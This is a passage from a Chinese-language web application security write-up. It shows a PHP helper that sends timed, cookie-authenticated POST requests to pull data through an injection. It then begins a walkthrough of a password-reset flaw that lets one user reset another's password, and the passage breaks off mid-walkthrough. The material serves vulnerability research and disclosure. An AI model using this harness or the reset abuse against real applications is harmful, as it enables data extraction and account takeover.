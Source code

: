 ```
/**
 * 发送请求
 * @return array
 */
function sendRequest($uid)
`{`
    global $url;
    $cookie  = 'UserName=usertest2;PassWord=5bc3f442e2128b2fffd90dfb9d59d701';
    $chandle = curl_init($url);
    curl_setopt($chandle, CURLOPT_HTTPHEADER, array('Connection: Keep-Alive',));
    curl_setopt($chandle, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0');
    curl_setopt($chandle, CURLOPT_TIMEOUT, 20);
    curl_setopt($chandle, CURLOPT_RETURNTRANSFER, TRUE);
    curl_setopt($chandle, CURLOPT_FOLLOWLOCATION, TRUE);
    curl_setopt($chandle, CURLOPT_POST, 1);
    curl_setopt($chandle, CURLOPT_POSTFIELDS, 'id=' . $uid);
    curl_setopt($chandle, CURLOPT_COOKIE,  $cookie);
    curl_exec($chandle);
    $httpInfo = curl_getinfo($chandle);
    curl_close($chandle);
    if ($httpInfo) `{`
        echo 'Request Consume Time :' . $httpInfo["total_time"] . "\n";
        return $httpInfo;
    `}`
`}`

```

可以看到，数据其实是跑出来了

[![](https://p3.ssl.qhimg.com/t010d07d46659003058.png)](https://p3.ssl.qhimg.com/t010d07d46659003058.png)

最后结果：

[![](https://p2.ssl.qhimg.com/t015360e648b90a54af.png)](https://p2.ssl.qhimg.com/t015360e648b90a54af.png)

除了这个注入之外，我们再看一下还有没有其他问题，我们重点看一下用户中心模块的相关的逻辑和代码。<br>`我们发现竟然可以重置他人的密码。`我们注册一个 usertest3 : usertest3 (用户名：密码)`<br>
之前我们注册的 usertest1 : usertest1。

```
我们以  usertest3  重置  usertest1 的密码
```

我们点击 找回密码，这里输入 usertest1

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t012bed266cf9bb4f15.png)

点击下一步
